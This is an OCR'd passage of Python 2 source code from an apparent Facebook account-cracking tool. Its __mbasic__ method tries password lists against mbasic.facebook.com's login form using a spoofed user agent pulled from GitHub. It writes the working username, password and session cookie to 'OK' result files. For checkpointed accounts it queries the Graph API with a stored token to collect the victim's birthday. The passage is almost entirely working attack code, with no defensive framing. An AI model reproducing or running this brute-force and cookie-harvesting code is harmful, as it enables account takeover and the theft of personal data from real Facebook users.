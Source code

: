                 print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1


    def __mbasic__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = requests.get('https://raw.githubusercontent.com/Yayan-XD/ymbf/main/data/user_agent.txt').text.strip()
            ses = requests.Session()
            ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
            p = ses.get("https://mbasic.facebook.com")
            b = ses.post("https://mbasic.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})
            if "c_user" in ses.cookies.get_dict().keys():
            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)
                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif "checkpoint" in ses.cookies.get_dict().keys():
                try:
                    kontol = open('.ppk/.memek.txt').read()
                    ak = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol))
                    az = json.loads(ak.text)
                    graph = az["birthday"]
                    month, day, year = graph.split("/")
                    month = bulan[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day = ''
                    year = ''
                except:
                    pass
